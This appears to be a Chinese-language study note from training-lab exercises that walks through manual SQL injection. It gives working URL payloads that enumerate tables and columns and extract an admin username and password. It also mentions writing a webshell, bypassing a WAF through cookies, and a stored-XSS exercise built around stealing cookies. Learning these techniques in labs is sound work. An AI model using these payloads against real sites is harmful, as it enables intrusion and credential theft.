 ```yaml
---
date: 2022-06-07 11:55:37
categories: 
  - 网络空间
tags: 
  - sql注入
author: 
  name: scucat
  link: https://github.com/scucat
---
```

# sql注入
相关教程

https://www.cnblogs.com/ihacker/p/11055191.html

## 注入流程
- 是否存在注入并且判断注入类型
- 判断字段数   order by 
- 确定回显点      union select 1,2
- 查询数据库信息    @@version    @@datadir
- 查询用户名，数据库名     user()   database()
- 文件读取  union select 1,load_file('C:\\wondows\\win.ini')#
- 写入 webshell       select..into  outfile...
- 补充一点，使用sql注入遇到转义字符串的单引号或者双引号，可使用HEX编码绕过

## SQL 注入常规利用思路：#
1. 寻找注入点，可以通过 web 扫描工具实现
2. 通过注入点，尝试获得关于连接数据库用户名、数据库名称、连接数据库用户权限、操作系统信息、数据库版本等相关信息。
3. 猜解关键数据库表及其重要字段与内容（常见如存放管理员账户的表名、字段名等信息）
3. 还可以获取数据库的root账号 密码—思路
4. 可以通过获得的用户信息，寻找后台登录。
5. 利用后台或了解的进一步信息。

## 习题1
https://bbs.zkaq.cn/?t/2642.html

### 1. 判断是否存在注入
如果语句1页面正常，语句2页面不正常，那么存在注入
```sql
?id=1 and 1=1
?id=1 and 1=2
```

### 2. 判断字段数
[使用order by排序判断字段数](https://blog.csdn.net/wangyuxiang946/article/details/121058067)
```
?id=1 and 1=1 order by 1  页面正常
?id=1 and 1=1 order by 2  页面正常
?id=1 and 1=1 order by 3  页面返回错误，判断字段数为2

```
order by怎么判断字段数？

原理很简单，就是利用数据库的「报错」机制
### 3. 判断回显点
```
?id=1 and 1=2 union select 1,2
```
![](https://bbs.zkaq.cn/upload/userfile/814/2e5c5824c7c2abd11571bef986f6dabe.png)

页面出现了  2  ，说明我们可以在数字  2  处显示我们想要的内容

### 4. 查询当前数据库名

构造 ?id=1 and 1=2 union select 1,database() 回车
![](https://bbs.zkaq.cn/upload/userfile/814/46d935412382cf748605ead31d519440.png)



### 查询当前数据库版本

构造 ?id=1 and 1=2 union select 1,version() 回车
![](https://bbs.zkaq.cn/upload/userfile/814/dcffa01ce32d5544aa3af08a6ab597c6.png)

### 查询当前数据库表名
构造 ?id=1 and 1=2 union select 1,table_name from information_schema.tables where table_schema=database() limit 0,1 回车
![](https://bbs.zkaq.cn/upload/userfile/814/ad3e67184d3fc69e17bb2cf236bc82dc.png)

绝大数情况下，管理员的账号密码都在admin表里


### 查询字段名
构造 ?id=1 and 1=2 union select 1,column_name from information_schema.columns where table_schema=database() and table_name='admin' limit 0,1 回车
![](https://bbs.zkaq.cn/upload/userfile/814/727912aee432793581fdc525eea5b7d3.png)

构造 ?id=1 and 1=2 union select 1,column_name from information_schema.columns where table_schema=database() and table_name='admin' limit 1,1 回车
![](https://bbs.zkaq.cn/upload/userfile/814/0e5e6f0b079395f54f066b62e370fd3c.png)


构造 ?id=1 and 1=2 union select 1,column_name from information_schema.columns where table_schema=database() and table_name='admin' limit 2,1 回车
![](https://bbs.zkaq.cn/upload/userfile/814/63c5e360490e6cd7472521cbc5344ea8.png)


查出 admin 表里 有  id   username  password  三个字段


### 查询字段内容
构造 ?id=1 and 1=2 union select 1,username from admin  limit 0,1 回车
![](https://bbs.zkaq.cn/upload/userfile/814/b45958e4625296047936bcc418dc3689.png)

构造 ?id=1 and 1=2 union select 1,password from admin  limit 1,1 回车
![](https://bbs.zkaq.cn/upload/userfile/814/93ea6cfe14260553ec81f2bb783f01ae.png)


limit 1,1 没有回显，说明只有一个用户

构造 ?id=1 and 1=2 union select 1,password from admin  limit 0,1 回车
![](https://bbs.zkaq.cn/upload/userfile/814/0b3a07dd50aa608a6475cf9501342162.png)

得到管理员账号和密码

## 习题2 绕过WAF
### 使用cookie进行传参
尝试将测试语句放到cookie里面，再发送给服务器，因为网页防护一般只拦截Get、post传参。

打开Chrome浏览器，这里用到了ModHeader插件
[ModHeader下载](http://bbs.zkaq.cn/?t/138.html)

> Access没有数据库名，但猜表名、列名，用手注非常耗时。管理员这里直接猜得的表名是 admin 、列名是username、password

## 习题3 存储型XSS
教程：https://bbs.zkaq.cn/?t/157.html

公开XSS平台：http://xsspt.com

这题是一道存储型XSS偷取cookie的题目。（因为flag在cookie中，XSS BOT每10秒就带着有flag的cookie去访问查看留言的页面）

既然是存储型XSS，那么我们先用弹窗去尝试（如果不明白为什么弹窗尝试的话建议先去看我们的直播回放），那么就开始插入`<script>alert('zkaq')</script>`

## 习题4 提权
图片木马制作：https://bbs.zkaq.cn/?t/159.html